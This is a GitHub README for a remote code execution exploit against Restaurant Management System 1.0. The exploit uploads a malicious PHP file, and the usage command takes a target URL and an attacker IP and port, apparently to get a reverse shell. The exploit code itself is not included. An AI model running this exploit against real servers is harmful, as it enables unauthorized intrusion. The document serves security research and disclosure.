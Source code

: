 # Restaurant Management System RCE Exploit

This repository contains a Remote Code Execution (RCE) exploit for **Restaurant Management System 1.0**. This vulnerability allows an attacker to upload a malicious PHP file and execute arbitrary commands on the target server.

## Vulnerability Details

- **Exploit Title**: Restaurant Management System 1.0 - Remote Code Execution (RCE)
- **Tested on**: CentOS 7, Apache 2.4.6, PHP 5.4.16
- **Vendor Homepage**: [Link](https://www.sourcecodester.com/users/lewa)
- **Software Link**: [Restaurant Management System Download Link](https://www.sourcecodester.com/php/11815/restaurant-management-system.html)
- **Exploit-DB Entry:** [https://www.exploit-db.com/exploits/47520](https://www.exploit-db.com/exploits/47520)

## Usage

### Clone the repository:

```bash
git clone https://github.com/iltosec/restaurant-management-system-rce.git
cd restaurant-management-system-rce
python restaurant_management_rce.py <target_url> <attacker_ip> <attacker_port>
```

# Demo
Here is a demo of how the exploit works:
<div align="center">

<a href="https://asciinema.org/a/715292" target="_blank"><img src="https://asciinema.org/a/715292.svg" /></a>
</div>

# Disclaimer
This exploit is for educational purposes only. Please ensure you have explicit permission to test the target system before using this exploit.

By using this exploit, you agree not to cause harm or damage to systems and networks without authorization.
